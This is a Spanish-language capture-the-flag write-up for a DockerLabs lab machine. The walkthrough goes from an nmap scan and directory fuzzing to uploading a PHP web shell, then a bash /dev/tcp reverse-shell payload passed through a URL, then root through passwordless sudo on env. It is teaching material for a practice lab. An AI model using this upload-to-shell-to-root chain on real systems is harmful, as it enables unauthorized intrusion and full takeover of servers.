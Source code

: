 # [Upload](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con `bash auto_deploy.sh upload.tar` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con `ping -c 1 172.17.0.2`<br>
`-c 1` ⮞ solo lo repite una vez
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dcfa4972-3c0f-4869-a4e9-c3f61e9f0a32)
<br>

Ahora vamos con el reconocimiento de nmap `nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk) <br>
<br>

Podemos ver los resultados en el archivo grepeable haciendo `cat allPorts`, observamos tan solo está abierto el puerto **80**.
<br>

![alt text](image.png)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como URL. Nos encontramos con un panel el cual nos permite subir un archivo.
<br>

![alt text](image-1.png)

<br>

Lo que debemos hacer ahora es ver si podemos el directorio donde se estarían subiendo los archivos. Para ello haremos un fuzzing gracias a gobuster con el siguiente comando: `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2 -x txt,sql,py,js,php,html` y nos reportará lo siguiente:
<br>

![alt text](image-2.png)

<br>

Listo, hemos encontrado el directorio `/uploads` en el cual se estarían subiendo los archivos a través del panel de `Upload File`. Por lo que podríamos hacer ahora es ver si podemos subir un archivo `cmd.php` el cual nos permita la Remote Code Execution (RCE), el contenido del archivo sería el siguiente:
<br>

![alt text](image-3.png)

<br>

Probamos a subir el archivo `cmd.php`, y nos dice lo siguiente:
<br>

![alt text](image-4.png)

<br>

Por lo cual habríamos logrado la Ejecución Remota de Comandos, nos dirigimos al directorio `/uploads` y observamos que se ha subido el archivo `cmd.php`:
<br>

![alt text](image-5.png)

<br>

Y ahora pasándole como parámetro a `cmd` el comando que queremos ejecutar en este caso `id`:
<br>

![alt text](image-6.png)

<br>

Por lo que ahora nos mandaríamos una [revshell](https://www.revshells.com/). En primer lugar, nos ponemos en escucha en un puerto poniendo en la terminal lo siguiente `nc -nlvp 443`, y después escribiendo lo siguiente en el buscador `http://172.17.0.2/uploads/cmd.php?cmd=bash -c'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, recibiríamos la revshell: 
<br>

![alt text](image-7.png)

<br>
<br>

## Escala de Privilegios

Comprobamos que hemos podido ingresar a la Máquina Víctima como **www-data** para comprobarlo hacemos `whoami`.
<br>

![alt text](image-8.png)

<br>

Si ejecutamos `sudo -l` podemos ver que no podemos correr `/usr/bin/env` como `root` sin proporcionar contraseña.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo<br>

![alt text](image-9.png)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en env, y nos encontramos con lo siguiente `sudo env /bin/sh'`.
<br>

A continuación probaremos a ejecutar dicho comando adaptándolo que sería `sudo -u root /usr/bin/env /bin/bash`.
<br>


![alt text](image-10.png)
<br>

Y listo ya seríamos root!!
